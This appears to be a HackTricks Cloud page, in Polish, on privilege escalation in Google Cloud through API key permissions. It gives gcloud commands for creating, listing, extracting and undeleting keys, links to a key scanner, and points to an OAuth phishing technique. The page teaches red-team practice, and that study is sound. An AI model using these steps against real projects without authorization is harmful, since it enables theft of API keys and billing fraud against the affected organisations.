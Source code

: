 # GCP - Apikeys Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apikeys

Następujące uprawnienia są przydatne do tworzenia i kradzieży kluczy API, nie jest to z dokumentacji: _Klucz API to prosty zaszyfrowany ciąg, który **identyfikuje aplikację bez żadnego podmiotu**. Są przydatne do uzyskiwania dostępu do **publicznych danych anonimowo** i są używane do **kojarzenia** żądań API z Twoim projektem w celu kwotowania i **rozliczeń**._

Dlatego z kluczem API możesz sprawić, że firma zapłaci za Twoje korzystanie z API, ale nie będziesz w stanie podnieść uprawnień.

Aby uzyskać więcej informacji na temat kluczy API, sprawdź:

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

Aby uzyskać inne sposoby tworzenia kluczy API, sprawdź:

{% content-ref url="gcp-serviceusage-privesc.md" %}
[gcp-serviceusage-privesc.md](gcp-serviceusage-privesc.md)
{% endcontent-ref %}

### Brute Force API Key access <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Ponieważ możesz nie wiedzieć, które API są włączone w projekcie lub jakie ograniczenia zastosowano do znalezionego klucza API, warto uruchomić narzędzie [**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner) i sprawdzić **do czego możesz uzyskać dostęp za pomocą klucza API.**

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

To uprawnienie pozwala na **tworzenie klucza API**:
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
Możesz znaleźć skrypt do automatyzacji [**tworzenia, wykorzystywania i czyszczenia podatnego środowiska tutaj**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/b-apikeys.keys.create.sh).

{% hint style="danger" %}
Zauważ, że domyślnie użytkownicy mają uprawnienia do tworzenia nowych projektów i przyznawana jest im rola Właściciela w nowym projekcie. Tak więc użytkownik mógłby **utworzyć projekt i klucz API w tym projekcie**.
{% endhint %}

### `apikeys.keys.getKeyString` , `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

Te uprawnienia pozwalają **wylistować i uzyskać wszystkie klucze API oraz uzyskać Klucz**:
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
Możesz znaleźć skrypt do automatyzacji [**tworzenia, wykorzystywania i czyszczenia podatnego środowiska tutaj**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh).

### `apikeys.keys.undelete` , `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

Te uprawnienia pozwalają na **wyświetlanie i regenerowanie usuniętych kluczy API**. **Klucz API jest podawany w wyniku** po zakończeniu **przywracania**:
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### Stwórz wewnętrzną aplikację OAuth, aby phishingować innych pracowników

Sprawdź następującą stronę, aby dowiedzieć się, jak to zrobić, chociaż ta akcja należy do usługi **`clientauthconfig`** [zgodnie z dokumentacją](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin):

{% content-ref url="../../workspace-security/gws-google-platforms-phishing/" %}
[gws-google-platforms-phishing](../../workspace-security/gws-google-platforms-phishing/)
{% endcontent-ref %}

{% hint style="success" %}
Ucz się i ćwicz hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

